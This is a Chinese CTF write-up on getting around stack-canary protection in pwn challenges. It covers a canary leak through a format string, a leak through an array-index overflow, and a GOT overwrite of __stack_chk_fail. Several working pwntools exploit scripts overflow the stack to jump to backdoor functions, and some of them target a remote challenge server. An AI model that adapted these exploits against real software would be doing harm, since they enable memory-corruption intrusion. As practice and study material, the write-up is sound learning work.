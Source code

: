 ```yaml
---
title: 「PWN」canary的绕过和泄露思路
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


准备研究一下不同保护机制下的绕过，然后就准备进 heap 了

今天先来看一下 Canary

<!--truncate-->

# Leak Canary

绕过 Canary 的主要一种方式就是泄露 Canary 的值，通常需要根据格式化字符串或者题目的一些输出来进行。

## bin

这是一题最基础的格式化字符串泄露 Canary 的题目

![pseudocode](https://oss.nova.gal/img/image-20220116194731361.png)

![checksec](https://oss.nova.gal/img/image-20220116195013327.png)

同时，有直接 cat flag 的后门函数，所以我们只需要泄露出 canary 的值，并溢出到后门函数就好。

通过 GDB 看到 canary 在字符串的第七个参数位置，直接任意地址读 canary 就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary)
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

这是用到了数组下标溢出的知识，但本质也是一样的。

通过数组下标溢出修改它的上限判定，再泄露 canary

（按理来说应该可以直接修改数组下标到返回地址，直接修改返回地址，但是还没搞出来，同样的脚本写着写着就 segment fault 了，再改回去也不行了，程序员的疑问+1）

给出两个 exp

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```

# Hijack stack_chk_fail

修改`stack_chk_fail`函数的 got 表地址，让它执行时直接跳转到后门函数

这样再栈溢出就可以了

主要还是靠一手格式化字符串任意地址写(让人怀疑主题（)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> 顺带提一嘴，其实我对 fmtstr 的大数字覆盖还是挺搞不懂的，不过 pwntools 居然自带了 fmtstr_payload 来给你算，挺好的

# Brute-Force

Fork 进程会让 canary 不变，可以爆破

~~还没有找到题目~~

